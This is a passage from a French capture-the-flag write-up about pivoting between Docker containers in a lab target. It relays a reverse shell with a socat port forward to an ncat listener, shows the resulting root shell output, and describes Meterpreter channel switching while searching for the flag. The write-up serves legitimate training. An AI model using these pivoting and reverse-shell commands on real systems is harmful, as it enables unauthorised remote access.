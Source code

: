 Maintenant c'est compliqué de gérer dans le même shell sur le container *www* l'exploitation et la réception du reverse shell, en particulier parce que si le reverse shell ne vient pas on va avoir du mal à stopper notre listener ncat sans tout couper et tout perdre (ou presque) :D (le shell est très basique, pas de pty).  

Par conséquent le listener *ncat* ne sera pas lancé sur le docker *www* mais sur *nodered* (le premier). Sur *www* on exécutera un socat qui fera une redirection de port :  

```bash
./socat TCP-LISTEN:9999,fork,reuseaddr TCP:172.19.0.4:9999 &
```

Cette commande est du coup à placer avant l'exécution rsync ;-)   

Cette fois on le tient notre accès root sur le dernier container :  

```plain
Ncat: Connection from 172.19.0.3.
Ncat: Connection from 172.19.0.3:57776.
id
uid=0(root) gid=0(root) groups=0(root)
hostname
backup
pwd
/root
ls -al
total 16
drwx------ 2 root root 4096 Jul 15  2018 .
drwxr-xr-x 1 root root 4096 Jul 15  2018 ..
-rw-r--r-- 1 root root  570 Jan 31  2010 .bashrc
-rw-r--r-- 1 root root  140 Nov 19  2007 .profile
```

Sh\*t toujours pas de flag root :'(   

L'exploration du système a été très particulière puisque à ce stade je dispose d'une unique session *Meterpreter* avec deux channels : l'un sur *www* et l'autre sur *backup*.  

Il aura fallut switcher en permanence de l'un à l'autre : utiliser rsync depuis *www* pour envoyer les commandes manquantes et autres scripts vers *backup* puis switcher sur *backup* pour réceptionner les scripts et les exécuter.  

[LinEnum](https://github.com/rebootuser/LinEnum) ne m'a rien remonté que je savais déjà (Hé on est sur un container Docker !)  

Je m'en suis remis aux conseils de [r0pSteev](https://twitter.com/stevenaathan4) qui invitaient à se pencher sur les partitions du système.  

```plain
$ lsblk -o NAME,FSTYPE,SIZE,MOUNTPOINT,LABEL
NAME   FSTYPE  SIZE MOUNTPOINT LABEL
sda             18G
|-sda1 ext4    5.5G /etc/hosts
|-sda2 ext4    1.5G
|-sda3 ext4    1.5G
|-sda4           1K
`-sda5 swap    9.5G [SWAP]
sr0           1024M
```
